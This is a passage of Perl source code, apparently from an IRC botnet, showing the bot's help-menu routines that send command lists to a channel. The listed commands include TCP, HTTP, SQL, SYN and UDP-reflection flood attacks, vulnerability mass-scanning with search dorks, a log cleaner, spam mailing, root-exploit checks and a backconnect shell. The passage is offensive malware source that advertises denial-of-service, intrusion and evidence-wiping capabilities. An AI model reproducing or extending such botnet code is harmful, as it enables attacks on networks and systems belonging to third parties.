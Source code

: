             sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3tcpflood <host> <port> <packet size> <time>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3httpflood <host> <time>");  

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3sqlflood <host> <time>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7[14@13-----[Extras Ddos Commands]-----14@12] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3syn <destip> <destport> <time in seconds>"); 

			sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3sudp <host> <port> <reflection file> <threads> <time> | Requires ./50 installed"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7[14@13Go to @extras to install required scripts14@12] "); 

              

         }    

  

         if ($funcarg =~ /^news/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12,1[14@13-----[News Commands]-----14@12] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3packetstorm"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3milw0rm"); 

         }    

  

         if ($funcarg =~ /^hacking/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12,1[14@13-----[Hacking Commands]-----14@12] "); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3multiscan <vuln> <dork>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3socks5"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3portscan <ip>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3logcleaner"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3sendmail <subject> <sender> <recipient> <message>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3system"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3cleartmp"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3rootable"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3nmap <ip> <beginport> <endport>"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3back <ip><port>");    

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3linuxhelp"); 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :7-zr 14@3cd tmp:. | for example"); 

         }       
